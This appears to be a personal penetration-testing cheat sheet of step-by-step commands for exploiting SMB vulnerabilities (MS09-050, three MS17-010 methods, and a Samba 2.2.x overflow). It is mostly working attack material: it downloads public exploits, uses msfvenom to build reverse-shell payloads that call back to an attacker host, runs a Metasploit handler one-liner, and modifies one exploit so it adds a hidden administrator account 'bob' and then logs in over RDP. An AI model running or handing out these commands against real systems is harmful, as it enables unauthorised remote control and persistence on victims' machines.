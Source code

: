 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### MS09-50
```bash - kali
wget https://raw.githubusercontent.com/ohnozzy/Exploit/master/MS09_050.py
```

```python - kal
pip2.7 install pysmb
```

```bash - kali
msfvenom -p windows/shell/reverse_tcp LHOST=$KALI LPORT=443 EXITFUNC=thread -f c
```

---
1 - Liner
```bash - kali
msfconsole -x "use exploit/multi/handler;set payload windows/shell/reverse_tcp;set EXITFUNC thread;set LHOST $Kali;set LPORT 443;run;"
```

---

```bash - kali
sudo msfdb run
```

```bash - kali
use exploit/multi/handler
```

```bash - kali
set payload windows/shell/reverse_tcp
```

```bash - kali
set EXITFUNC thread
```

```bash - kali
run
```

```bash - kali
pip install pysmb -t .
```

```bash - kali
python MS09_050.py $TARGET
```

```bash - kali
python3 ms09-050.py $TARGET
```

#### MS17-010 method 1

https://medium.com/@simonsulyma/hack-the-box-legacy-penetration-testing-without-metasploit-44b628fe870f

```bash - kali
git clone https://github.com/helviojunior/MS17-010 && cd MS17-010/ && python checker.py $TARGET
```

```bash - kali
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=443 -f exe > ms17–010.exe
```

![[rlwrap]]

```bash - kali
python send_and_execute.py $TARGET ms17–010.exe
```

#### MS17-010 method 2 (RDP)

```bash - kali
wget https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py
```

```bash - kali
searchsploit -m 42315
```

Edit 42315, replacing the block of code from 916 - 920 with the following:

```python - kali
	print('Sending exploit')
	service_exec(conn, r"cmd /c net user bob pass /add")
	service_exec(conn, r"cmd /c net localgroup administrators bob /add")
```

```bash - kali
python 42315.py $TARGET
```

```bash - kali
rdesktop -a 16 -z $TARGET -u bob -p pass
```

#### MS17-010 method 3
```bash - kali
searchsploit -m 42031
```

```bash - kali
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=443 -f raw EXITFUNC=thread -o exploit.bin
```

![[rlwrap]]

```bash - kali
python 42031.py $TARGET exploit.bin
```

#### Samba 2.2.x - Remote Buffer Overflow
```bash - kali
searchsploit -m 7
```

```bash - kali
chmod +x 7.pl
```

```bash - kali
./7.pl -t linx86 -H $KALI -h $TARGET
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
